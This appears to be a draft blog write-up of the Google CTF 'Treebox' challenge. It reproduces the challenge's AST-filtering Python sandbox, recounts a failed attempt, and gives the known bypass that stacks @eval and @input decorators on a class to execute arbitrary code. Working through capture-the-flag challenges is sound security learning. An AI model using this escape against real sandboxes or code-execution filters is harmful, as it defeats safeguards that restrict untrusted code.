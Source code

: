 ```yaml
---
title: "What I learned From Google Ctf"
date: 2022-07-03T21:02:55-05:00
draft: true
---
```


## Treebox

The challenge description was:
````
I think I finally got Python sandboxing right.
````

The challenge source code was.

````
#!/usr/bin/python3 -u
#
# Flag is in a file called "flag" in cwd.
#
# Quote from Dockerfile:
#   FROM ubuntu:22.04
#   RUN apt-get update && apt-get install -y python3
#
import ast
import sys
import os

def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True

abspath = os.path.abspath(__file__)
dname = os.path.dirname(abspath)
os.chdir(dname)

print("-- Please enter code (last line must contain only --END)")
source_code = ""
while True:
  line = sys.stdin.readline()
  if line.startswith("--END"):
    break
  source_code += line

tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
if verify_secure(tree):  # Safe to execute!
  print("-- Executing safe code:")
  compiled = compile(source_code, "input.py", 'exec')
  exec(compiled)
````
My first instict was to use decorators, but I wasn't sure that would allow me to escape the call AST check. I also then looked into looked into the [AST](https://docs.python.org/3/library/ast.html) documentation. I missed that exceptions could call code so I tried to use getitem to call print.

````
class A:
    def __getitem__(self,item):
        pass

a = A()
a.__getitem__ = print
````

I ran out of time trying to get my escape to work. Afterwards I read through writeups and learned that you can use decorators to bypass the sandbox.

````
@eval
@input
class A: 0
````

This example uses decorators around a class to allow us to execute arbitrary code.